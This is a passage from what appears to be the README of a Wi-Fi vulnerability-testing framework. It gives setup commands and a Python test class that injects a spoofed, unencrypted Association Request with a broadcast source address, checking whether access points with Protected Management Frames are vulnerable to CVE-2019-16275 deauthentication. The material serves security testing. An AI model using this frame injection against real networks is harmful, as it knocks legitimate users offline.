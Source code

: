 ```python
		self.actions[1].set_function( self.ping )
		self.actions[1].set_terminate( delay=2 )
```

#### Configuration
Load any configuration, for example, ```wpa2-personal```:
```
cd setup; ./load-config.sh wpa2-personal
```

#### Execution
Let us start an access point:
```
./hostap.py wlan0 --ap
```
We can now run our client, which will perform the demonstration:
```
./run.py wlan1 example-demo
```

## Wi-Fi PMF Deauthentication Vulnerability

Test for deauthentication vulnerabilities when Wi-Fi Protected Management Frames (PMF) is enabled.

Specifically, we test if an access point is vulnerable to ```CVE-2019-16275```.

This example tests weaknesses in access points, by acting as a supplicant.

#### Definition
```python
class ExamplePMFDeauthCVE(Test):
	"""Deauthentication vulnerability against an access point (CVE-2019-16275)."""
	name = "example-pmf-deauth"
	kind = Test.Supplicant
	
	def __init__(self):
		super().__init__([
			# Inject an invalid Association Request.
			Action( trigger=Trigger.Connected, action=Action.Inject ),
			# If the station is disconnected, we can terminate the test.
			Action( trigger=Trigger.Disconnected, action=Action.Terminate )
		])


	def generate(self, station):
		
		# Contruct an invalid Association Request using a Broadcast MAC address.
		frame = Dot11()/Dot11AssoReq()
		frame[Dot11].addr1 = station.bss
		frame[Dot11].addr2 = "ff:ff:ff:ff:ff:ff" # Source Address.
		frame[Dot11].addr3 = station.bss
		
		# Transmit plaintext frame, after some delay.
		self.actions[0].set_frame( frame , encrypt=False , mon=True )
		self.actions[0].set_delay( 2 )
```
